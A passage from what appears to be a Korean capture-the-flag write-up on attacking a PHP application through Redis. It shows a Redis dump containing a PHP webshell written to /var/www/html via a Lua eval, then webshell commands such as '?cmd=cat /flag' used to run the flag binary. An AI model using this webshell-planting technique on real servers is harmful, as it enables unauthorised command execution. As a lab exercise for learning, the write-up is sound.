 지금은 cmd값에 아무것도 전달하지 않아서 에러가 난다.<br />
```
REDIS0009� redis-ver5.0.14� redis-bits�@�ctime����g�used-mem+�aof-preamble���webshell/var/www/html �زl�1PHPREDIS_SESSION:b3e3c543496b7c5cba68a74f28176ed5�@�C(history_cnt|i:9;h�0|s:70:"return redis.call("set", "webshell@/var/www/html ")"�W1�NW2�NW3�NW4�NW5�NW6�NW7�NW8�DW";�H �&�v�
```
테스트 용으로 `?cmd=pwd`를 전달해주면 중간에 `/var/www/html`이 출력된 것을 볼 수 있다. <br />
이제 `?cmd=cat /flag`로 플래그 값을 보려고 하는데 이렇게 하면 아무것도 출력이 안된다.<br />

플래그 파일에 문제가 있나 `?cmd=file /flag`로 살펴보니 플래그 파일이 문서가 아니라 실행 파일이었다. <br />
`?cmd=/flag`를 입력하면 플래그가 출력된다.
# 배운 것
PHP에서 Redis를 사용할 경우 발생할 수 있는 취약점을 배우고 채험할 수 있었다.<br />
특히 `redis->eval()` 함수엔 Lua Script가 들어간다던지, configuration 값을 바꿔서 할 수 있는 것들이 많다는 점들.